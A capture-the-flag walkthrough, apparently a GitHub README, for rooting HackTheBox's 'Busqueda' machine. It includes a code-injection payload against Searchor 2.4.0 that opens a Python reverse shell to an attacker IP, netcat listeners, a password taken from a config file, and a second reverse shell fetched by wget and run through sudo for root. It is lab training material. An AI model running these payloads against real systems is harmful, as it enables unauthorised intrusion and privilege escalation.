 ## Busqueda Writeup -- HackTheBox ##
  
**This is a walkthrough to get root access on a Linux machine called Busqueda from Hack The Box**

• Add the IP address of the machine from Hack the Box website to your hosts file 

**sudo gedit /etc/hosts**

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/dee050f3-0dc5-41de-8e11-6f334472570f)


• Next step is to doing scanning for open ports and for service version using nmap and the command: **nmap -sV -A -T4 10.10.11.208**


![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/ee5d7dd3-5546-4e8e-ad6d-37ca2851bc2a)

• as we noticed that two  ports (80, 22) are open, let's try to open the IP on the browser

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/5bea92a6-0c2c-41e4-99cb-57ffc6bf5013)

• it is noticed at the bottom of the web page a version Searchor 2.4.0, let's try to find the exploit for it 

after searching on Google, it is found that the URL: https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit- have the exploit code to receive an initial shell 

• put the exploit on the filed   
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.144',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/c6a5eca0-9522-4ef1-a94b-590f602d7429)


• on the same time open a listener using netcat with the command  nc -nlvp 1234,  press the search button and the initial shell will be as shown 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/4fd8f83d-e17d-4a62-aff6-aae9fc2d76a5)

• to obtain the first flag, go to home directory and display the content of the user.txt and you will get the first flag as shown 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/52e3fe7b-48be-4a72-9a08-ebf414e7b0c0)

• after enumeration, go through the folder  **cd /var/www/app**, display the content of the file config  **cat config** and the password for accessing  the server with SSH is showing 
 
![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/3b23308f-bc77-49b6-950c-17d4573e391c)

• connect to the web server with SSH to get an interactive and stable shell 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/07ace5e3-0083-427b-8172-68e678f3733a)

• enumeration to get a root shell, you will find docker-inspect, and try to get a code from Google to get the high privilege, with the help of this 
URL:  https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/   
with the code: import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
after putting the code in a Python file with the name **full-checkup.sh** and opening a Python server to send the file from my local machine to the web server with the command 
└─$ **python -m http.server 80**, and on our shell use the command **wget://10.10.14.144:80/full-checkup.sh** to receive the file 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/69027e08-1198-4a29-b358-4fc605b0eb21)

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/90860dd7-6e1c-4fe7-af41-37f64533edbc)

• after receiving the file change the mod by command **chmod +x full-checkup.sh** 
![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/a9bf3e06-475a-4c16-98a4-a6be25f2e09d)

• open a listener to listen on port 4444 with netcat  nc -nlvp 4444 

• run the following command to receive the root shell 

sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/f218f1be-171d-4b0f-aa55-a5ca58307e2f)

• we get the root flag and root access on the machine 










